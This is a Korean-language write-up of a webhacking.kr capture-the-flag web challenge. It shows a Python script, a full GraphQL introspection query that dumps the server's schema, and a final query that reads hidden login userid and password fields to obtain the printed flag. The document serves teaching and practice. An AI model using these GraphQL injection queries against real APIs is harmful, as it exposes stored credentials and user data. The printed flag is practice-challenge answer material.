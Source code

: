 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-20-09.png)


# **Write-Up**

Hello world :)를 클릭하면 popcat이 나온다.

![](images/2022-01-03-03-20-24.png)

Hell world :(를 누르면 우는 모습의 고양이가 나온다.

![](images/2022-01-03-03-20-28.png)

javascript를 보면 view.php로 GET method로 query라는 데이터에 일정 포맷의 데이터를 넣고 전송한다.

```javascript
... 생략 ...
  q = `query{
    view{
      no,
      subject,
      content
    }
  }`;
  xhr = new XMLHttpRequest();
  xhr.open("GET", "/view.php?query="+JSON.stringify(q).slice(1).slice(0,-1),false);
  xhr.send();
... 생략 ...
```

Python을 이용하여 똑같이 접근해보자.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10012/'
SESSID      = 'k36gl297gtgobap4pp45qdb532'
headers     = {'Cookie':'PHPSESSID='+SESSID}

query       = 'query{view{no,subject,content}}'
url         = CHALLENGE + 'view.php?query='+query
req         = requests.get(url=url, headers=headers)
print(req.text)

[Output]
{"data":{"view":[{"no":1,"subject":"Hello world :)","content":"<img src=popcat.gif>"},{"no":2,"subject":"Hell world :(","content":"<img src=cryingcat.jpg>"}]}}
```

이번엔 query에 빈 값을 보내보자. GraphQL라는 것을 사용한다는 것을 유추할 수 있다.

```python
... 생략 ...
query       = 'query{}'
... 생략 ...

[Output]
{"errors":[{"message":"Syntax Error: Expected Name, found \"}\".","locations":[{"line":1,"column":7}],"extensions":{"code":"GRAPHQL_PARSE_FAILED","exception":{"stacktrace":["GraphQLError: Syntax Error: Expected Name, found \"}\".","    at syntaxError (/root/node_modules/graphql/error/syntaxError.js:15:10)","    at Parser.expectToken (/root/node_modules/graphql/language/parser.js:1413:40)","    at Parser.parseName (/root/node_modules/graphql/language/parser.js:98:22)","    at Parser.parseField (/root/node_modules/graphql/language/parser.js:295:28)","    at Parser.parseSelection (/root/node_modules/graphql/language/parser.js:284:81)","    at Parser.many (/root/node_modules/graphql/language/parser.js:1523:26)","    at Parser.parseSelectionSet (/root/node_modules/graphql/language/parser.js:271:24)","    at Parser.parseOperationDefinition (/root/node_modules/graphql/language/parser.js:199:26)"," 
   at Parser.parseDefinition (/root/node_modules/graphql/language/parser.js:137:23)","    at Parser.many (/root/node_modules/graphql/language/parser.js:1523:26)"]}}}]}
```

GraphQL-Injection이라는 것이 있다.

> [GraphQL-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

```python
... 생략 ...
query       = 'query{__schema{types{name}}}'
... 생략 ...

[Output]
{"data":{"__schema":{"types":[{"name":"Board"},{"name":"Int"},{"name":"String"},{"name":"User_d51e7f78cbb219316e0b7cfe1a64540a"},{"name":"Query"},{"name":"CacheControlScope"},{"name":"Upload"},{"name":"Boolean"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

모든 스키마를 추출하는 쿼리이다.

    query{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}

서버로 보내보자.

![](images/2022-01-03-03-21-27.png)

응답값을 살펴보면 로그인 관련 데이터가 보인다.

![](images/2022-01-03-03-21-33.png)

다음과 같은 쿼리를 전달하면 FLAG를 얻을 수 있다.

    {login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}

![](images/2022-01-03-03-21-43.png)

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-21-47.png)


# **FLAG**

**FLAG{i_know_how_to_use_graphql}**